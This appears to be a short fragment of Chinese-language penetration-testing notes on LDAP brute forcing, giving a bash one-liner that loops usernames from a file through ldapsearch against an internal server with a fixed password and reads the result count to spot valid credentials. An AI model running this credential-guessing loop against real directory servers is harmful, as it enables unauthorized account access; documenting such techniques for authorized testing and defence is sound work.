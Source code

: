 ![](images/7.jpg)
![](images/8.jpg)

**ldap 暴力破解**：

eg: 爆破用户名：

	for i in $(cat test.txt); do echo -e "\n$i";ldapsearch -x -H ldap://10.10.40.50:389 -D "CN="$i",DC=lmrsec,DC=com" -w Passw0rd -b "DC=lmrsec,DC=com" |grep "# numEntrie";done

test.txt保存所有用户名，如果口令正确，输出查询结果的个数，如果口令错误，返回验证错误。
